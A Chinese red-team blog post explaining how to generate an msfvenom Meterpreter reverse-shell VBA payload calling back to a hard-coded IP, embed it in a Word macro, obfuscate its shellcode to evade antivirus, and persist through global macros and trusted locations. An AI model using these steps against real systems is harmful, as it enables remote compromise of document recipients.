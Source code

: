 ```yaml
---
categories: 内网渗透
date: "2019-05-16T00:00:00Z"
description: 从msf生成的宏来学习
title: office宏
url: /archivers/2019-05-16/1
---
```


## 0x00 宏 - Macro

office宏，译自英文单词Macro。宏是微软公司为其office软件包设计的一个特殊功能，软件设计者为了让人们在使用软件进行工作时，避免一再地重复相同的动作而设计出来的一种工具，它利用简单的语法，把常用的动作写成宏，当在工作时，就可以直接利用事先编好的宏自动运行，去完成某项特定的任务，而不必再重复相同的动作，目的是让用户文档中的一些任务自动化。


Visual Basic for Applications（VBA）是Visual Basic的一种宏语言，是微软开发出来在其桌面应用程序中执行通用的自动化(OLE)任务的编程语言。主要能用来扩展Windows的应用程序功能，特别是Microsoft Office软件。也可说是一种应用程式视觉化的Basic 脚本。该语言于1993年由微软公司开发的的应用程序共享一种通用的自动化语言-Visual Basic for Application(VBA)，实际上VBA是寄生于VB应用程序的版本。

## 0x01 生成宏

```bash
$ msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=71.19.144.69 LPORT=8899 -f vba -o try.vba
```

使用msf就可以生成宏代码，接下来只要放入word或者excel、ppt即可。

## 0x02 创建宏

新建一个文档，另存为“启用宏的Word文档”：

![2019-05-15-14-00-36](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f905ed50aefb30dab9fbd923e1b296a1.png)


视图-查看宏：

![2019-05-15-14-02-48](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/e0140a93e1c3cf38cac2031d4f3e20a7.png)

随便输入一个宏名称，点击“创建”：

![2019-05-15-14-03-34](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/59c264e10758640d4a05a3ccecccf4f9.png)

此时进入宏编辑器：

![2019-05-15-14-04-57](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/a659557648212e62b9cd221b7306c7cf.png)

将msf生成的payload放入：

![2019-05-15-14-05-45](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/c8d03acde64f5652936b7b4757c1ddfc.png)

保存文件，关闭，再打开即可执行宏代码。

## 0x03 宏代码分析

msf生成默认的vba会导入三个api函数，常见的shellcode加载器代码：

![2019-05-15-14-07-11](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/f07106d7fd8e17930a285fa9e20c824c.png)

- CreateThread 创建线程
- VirtualAlloc 申请虚拟内存空间
- RtlMoveMemory 拷贝内存


```c++
HANDLE CreateThread(
  LPSECURITY_ATTRIBUTES   lpThreadAttributes,
  SIZE_T                  dwStackSize,
  LPTHREAD_START_ROUTINE  lpStartAddress,
  __drv_aliasesMem LPVOID lpParameter,
  DWORD                   dwCreationFlags,
  LPDWORD                 lpThreadId
);
```


```c++
LPVOID VirtualAlloc(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flAllocationType,
  DWORD  flProtect
);
```


```c++
VOID RtlMoveMemory(
  VOID * Destination,
  VOID * Source,
  DWORD Length
);
```

其中`Array(72,131,228,240,232,...`就是shellcode，混淆的办法有很多种。

shellcode可以自己在VBA里解码或者比如每个元素自增1，运行的时候-1，达到免杀...


## 0x04 效果


> 在线地址：[https://www.bilibili.com/video/av52532639/](https://www.bilibili.com/video/av52532639/)


<iframe src="//player.bilibili.com/player.html?aid=52532639&page=1&cid" scrolling="no" border="0" frameborder="no" framespacing="0" allowfullscreen="true" width="95%" height="450"> </iframe>


## 0x05 拓展分析

如果创建的是全局宏，Office会在这个目录生成一个dotm文档：

`C:\Users\<USERNAME>\AppData\Roaming\Microsoft\Templates`


![2019-05-15-14-53-42](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/be60c1522a347282be8fcbfc77b69986.png)


全局宏是对于当前计算机所有文档对象有效，即文档本身不包含宏代码，也可以运行全局宏。

![2019-05-15-14-54-49](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/0a83240eaa48371c5af1d45b94e9a6c8.png)

很遗憾，全局宏没有一个固定的名称，也就是说要先通过Office创建一个全局宏，然后其他文档打开时才可以执行代码。

![2019-05-15-15-52-06](https://rvn0xsy.oss-cn-shanghai.aliyuncs.com/b93a33d4a8037bb9bbaf0ab152cf7e61.png)

经过测试，这个全局宏中的文件：`vbaProject.bin`是包含了特征的文件，但是反病毒软件不会扫描这个文件，除非主动查杀。

这个特性可能可以达到维持权限的作用。

**后来才发现我使用的还是全局宏达到的免杀**


HKEY_CURRENT_USER\Software\Microsoft\Office\16.0\PowerPoint\Security\Trusted Locations

同过PorcessMonitor分析，从注册表找到几个授信目录：

- %APPDATA%\Microsoft\Templates
- C:\Program Files\Microsoft Office\Root\Templates\
- %APPDATA%\Microsoft\Addins
- C:\Program Files\Microsoft Office\Root\Document Themes 16\

